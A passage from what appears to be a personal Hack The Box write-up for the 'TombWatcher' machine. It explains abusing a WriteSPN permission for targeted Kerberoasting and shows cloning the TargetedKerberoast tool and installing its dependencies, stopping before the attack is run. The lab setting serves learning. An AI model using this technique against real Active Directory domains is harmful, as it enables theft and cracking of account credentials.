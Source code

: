 ![Pasted image 20250922214832.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250922214832.png)

We can see that `henry` have `WriteSPN` permission on `alfred`, so we can create a fake `SPN` of `alfred` and get and hash to crack.
# Exploit
## TargetedKerberoast

We can use this tool named [TargetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) on [Github](../../../3%20-%20Tags/Hacking%20Concepts/Github.md)

Clone the repo:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TombWatcher/user]
└─$ git clone https://github.com/ShutdownRepo/targetedKerberoast.git
Clone in 'targetedKerberoast' in corso...
remote: Enumerating objects: 76, done.
remote: Counting objects: 100% (33/33), done.
remote: Compressing objects: 100% (19/19), done.
remote: Total 76 (delta 19), reused 18 (delta 14), pack-reused 43 (from 1)
Ricezione degli oggetti: 100% (76/76), 252.27 KiB | 247.00 KiB/s, fatto.
Risoluzione dei delta: 100% (30/30), fatto.
```

Now make a `venv` and install requirements:

```bash
─$ python3 -m venv .venv
─$ source venv/bin/activate
─$ pip3 install -r requirements.txt
Collecting ldap3 (from -r requirements.txt (line 1))
  Downloading ldap3-2.9.1-py2.py3-none-any.whl.metadata (5.4 kB)
Collecting pyasn1 (from -r requirements.txt (line 2))
  Downloading pyasn1-0.6.1-py3-none-any.whl.metadata (8.4 kB)
Collecting impacket (from -r requirements.txt (line 3))
  Downloading impacket-0.12.0.tar.gz (1.6 MB)
     ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 1.6/1.6 MB 3.3 MB/s  0:00:01
     <SNIP>
```
